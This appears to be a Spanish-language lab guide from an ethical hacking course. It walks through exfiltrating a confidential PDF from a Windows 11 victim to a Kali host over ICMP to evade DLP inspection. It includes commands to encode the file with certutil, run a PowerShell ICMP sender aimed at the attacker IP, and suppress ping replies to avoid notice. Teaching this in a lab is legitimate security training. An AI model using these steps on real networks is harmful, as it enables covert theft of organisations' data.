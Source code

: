 # Exfiltrar información sensible evadiendo el sistema DLP.

Requisitos:
1. Máquina ***Router-Ubu***.
2. Máquina ***Kali Linux***.
3. Máquina ***Win 11***.

Las organizaciones suelen desplegar sistemas ***DLP***(Data Loss Prevention) en los perimetrales. Su objetivo es detectar cuando alguien intenta sacar del perímetro de la organización algún archivo sensible. 

Generalmente se envían por correo o se suben a repositorios en el Cloud (GSuite, O365, etc) por medio de conexiones ***HTTPS***. Por esta razón, se suele ***inspeccionar el tráfico SSL*** en los firewalls, porque de no ser así, los sistemas ***DLP*** no podrían ver lo que se está transmitiendo.

Pues bien, en este laboratorio aprenderemos a exfiltrar información a través del protocolo ***ICMP***, que generalmente no es inspeccionado, al menos desde el punto de vista del ***DLP***.

La ejecución de scripts maliciosos de PowerShell viene siendo bien detectada por las herramientas de seguridad, como el ***antivirus*** o el ***IDS***.

## Ejercicio 1: Comprobar si la víctima puede usar ICMP.

Asegúrate que en la máquina ***Win 11*** tienes clonado el repo de Github con los archivos del curso. Si no es así o no lo tienes claro, mira el ***Ejercicio 11: Clonado del repositorio de GitHub.*** del ***lab-00.md***.

También debemos asegurarnos de que se permite la ejecución de scripts de ***PowerShell***. Abrimos una terminal de ***PowerShell*** como ***ADMINISTRADOR***. En ellas ejecutamos.
```
Set-ExecutionPolicy -ExecutionPolicy RemoteSigned
```

Cerramos la terminal de administrador de ***PowerShell***.

En este escenario, el equipo ***Víctima*** (***Win 11***) está bajo el control del actor de la amenaza. En este mismo equipo también se encuentra el documento secreto que se desea exfiltrar.

Para conseguirlo vamos a enviar el archivo desde el equipo de la víctima al equipo de ataque (***Kali***) usando el protocolo ***ICMP***.

Lo primero que debemos comprobar es si la víctima puede enviar paquetes ***ICMP***.
(Nota: En la realidad, la víctima debería poder hacer ping hacia Internet, donde en una IP Pública se ubicará un servidor de ICMP con el que se va a comunicar. Por temas legales, nos limitamos al entorno de laboratorio, siendo la máquina ***Kali*** el destino de la exfiltración.)

En ***Win 11*** abrimos una terminal de ***PowerShell*** y escribimos.
```
ping 192.168.20.9
```

## Ejercicio 2: Crear en servidor ICMP en la máquina de ataque.

Asegúrate que en la máquina ***Kali*** tienes clonado el repo de Github con los archivos del curso. Si no es así o no lo tienes claro, mira el ***Ejercicio 11: Clonado del repositorio de GitHub.*** del ***lab-00.md***.

En la máquina ***Kali*** vamos a levantar un ***servidor ICMP*** mediante un script de ***Python***. Estudiémoslo.
```
nano ~/eHacking_LABS/50/icmp_server.py
```

Vamos a deshabilitar las repuestas de ping en ***Kali***, puesto que el truco consiste en mandar paquetes ICMP desde la víctima, la máquina de ***Kali*** respondería a cada uno de ellos, y no queremos llamar la atención del perimetral.
```
sudo sysctl -w net.ipv4.icmp_echo_ignore_all=1
```

Ejecutamos el servidor ***ICMP***. En la terminal escribimos.
```
sudo python ~/eHacking_LABS/50/icmp_server.py
```

## Ejercicio 3: Codificar el documento secreto y enviarlo.

Para ponérselo más difícil al sistema ***DPM*** vamos a codificar el documento en la máquina víctima (recordemos que el actor de la amenaza tiene su control). Para ello usaremos la herramienta ***CertUtil***.

En la máquina de ***Win 11***, en la terminal de ***PowerShell*** escribimos.
```
cd C:\Users\antonio\eHacking_LABS\50

certutil -encode TopSecret.pdf TopSecret.txt
```

Podemos ver el documento codificado.
```
cat TopSecret.txt
```

Visualizamos el script de ***PowerShell*** que va a enviar el archivo.
```
code ICMPSender.ps1
```

Las líneas más importantes son:
* *18:* IP de la máquina de ***Kali*** que está ejecutando el servidor ***ICMP***.
* *26:* Archivo a exfiltrar codificado con ***CertUtil***.

El código trocea el archivo en bloques de ***1472*** que es el máximo que puede llevar en la carga los paquetes ***ICMP***.

Cerramos ***Visual Studio Code*** y ejecutamos el script.
```
.\ICMPSender.ps1
```

## Ejercicio 4: Comprobar a exfiltración.

El máquina ***Kali*** debemos tener descargado el ***archivoExfiltrado.txt***. Aún necesita postprocesado porque recordemos que ha sido codificado con ***CertUtil*** y hay que retirar la cabecera y el pie.
```
cd ~/eHacking/50

sudo nano archivoExfiltrado.txt
```

Hay que ***eliminar*** la línea que se muestra en la imagen.

![Begin Certificate](../img/lab-50-B/202209102223.png)

Luego pulsamos ***CTRL+W*** y escribimos en el buscador lo siguiente.
```
END CERTIFICATE
```

Eliminamos el pie, tal y como señala la imagen.

![End Certificate](../img/lab-50-B/202209102227.png)

Guardamos con ***CTRL+X***, ***Y***. Antes de pulsar ***ENTER*** nos fijamos que el archivo está en formato ***DOS***. Tendrémos que convertirlo a ***Linux***.

![DOS Format](../img/lab-50-B/202209102231.png)

Pulsamos ***ENTER*** y en la terminal escribimos el siguiente comando.
```
sudo dos2unix archivoExfiltrado.txt
```

Por último lo descodificamos desde ***Base64*** (que es lo que hizo ***CertUtil***)
```
base64 -d archivoExfiltrado.txt > archivoExfiltrado.pdf
```

Ya solo queda ver el resultado.
```
open archivoExfiltrado.pdf
```

Para finalizar no olvidemos volver a habilitar la respuesta de ***ICMP***.
```
sudo sysctl -w net.ipv4.icmp_echo_ignore_all=0
```

***FIN DEL LABORATORIO***